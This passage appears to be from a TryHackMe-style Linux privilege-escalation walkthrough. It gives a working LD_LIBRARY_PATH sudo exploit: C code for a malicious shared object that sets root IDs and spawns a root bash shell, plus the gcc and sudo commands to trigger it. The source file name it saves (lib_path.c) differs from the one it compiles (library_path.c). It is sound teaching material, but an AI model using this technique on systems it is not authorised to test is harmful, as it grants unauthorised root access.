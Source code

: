 Alternatively, we can also exploit shared libraries used by a program when executing. For example, let's look at the shared libraries used by `/usr/sbin/apache2` by running the following command:

```console
ldd /usr/sbin/apache2
```
![Sudo Env Shared Lib](../../assets/images/thm/linuxprivesc/33-sudo_env_shared_lib.png)

Now let's create a shared object with the same name as one of the listed libraries (eg: libcrypt.so.1) using the following code. Save the code to a file in `/tmp/lib_path.c`.

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Then create the shared object using the following syntax:

```console
gcc -o /tmp/libcrypt.so.1 -shared -fPIC /tmp/library_path.c
```
![Sudo Env Lib Path](../../assets/images/thm/linuxprivesc/34-sudo_env_shared_lib_gcc.png)

We can now go ahead and execute the binary while supplying the *LD_LIBRARY_PATH* environment variable to where our malicious shared object resides. This will spawn an interactive root shell thus gaining our privilege escalation.

```console
sudo LD_LIBRARY_PATH=/tmp apache2
```
![Sudo Env Shared Lib PrivEsc](../../assets/images/thm/linuxprivesc/35-sudo_env_shared_lib_root.png)
